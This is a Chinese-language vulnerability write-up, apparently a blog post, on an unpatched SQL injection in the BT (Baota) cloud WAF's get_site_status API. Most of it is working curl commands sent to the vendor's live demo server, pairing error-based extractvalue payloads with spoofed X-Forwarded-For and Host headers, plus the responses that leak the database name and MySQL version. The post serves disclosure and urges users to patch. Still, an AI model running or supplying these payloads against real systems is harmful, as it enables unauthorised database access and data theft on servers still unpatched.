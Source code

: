 这段代码位于   
/cloud_waf/nginx/conf.d/waf/public/waf_route.lua  
 文件中，源文件是   
luajit  
 编译后的内容，反编译一下即可看到源码  
  
这段逻辑就在上文提到的   
**get_site_status**  
 API 中，slot1 变量就是   
server_name  
 参数。原理很简单，  
server_name  
 参数没有做任何校验就直接带入了 SQL 查询。  
  
宝塔官网还没有修复这个问题，还是拿宝塔官网为例，试试以下命令：  
```
curl "http://btwaf-demo.bt.cn/get_site_status?server_name='-extractvalue(1,concat(0x5c,database()))-'"  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'
```  
  
响应如下  
```
{"status":false,"msg":"数据查询失败: XPATH syntax error: '\\btwaf': 1105: HY000."}
```  
  
从响应来看已经注入成功，通过 updatexml 的报错成功的爆出了库名叫 **btwaf**  
  
继续执行以下命令：  
```
curl "http://btwaf-demo.bt.cn/get_site_status?server_name='-extractvalue(1,concat(0x5c,version()))-'"  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'
```  
  
响应如下  
```
{"status":false,"msg":"数据查询失败: XPATH syntax error: '\\8.1.0': 1105: HY000."}
```  
  
从响应来看，mySQL 版本是 8.1.0  
  
在继续执行以下命令  
```
curl "http://btwaf-demo.bt.cn/get_site_status?server_name='-extractvalue(1,concat(0x5c,(select'hello,world')))-'"  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'
```  
  
响应如下  
```
{"status":false,"msg":"数据查询失败: XPATH syntax error: '\\hello,world': 1105: HY000."}
```  
  
看起来 **select ‘hello,world’** 也执行成功了，到此为止，基本可以执行任意命令。  
  
  
漏洞已通报给宝塔官方，此漏洞危害较大，各位宝塔用户请关注宝塔官方补丁，及时更新。  
  
  
**感谢**  
**Palvef****师傅投稿！**  
  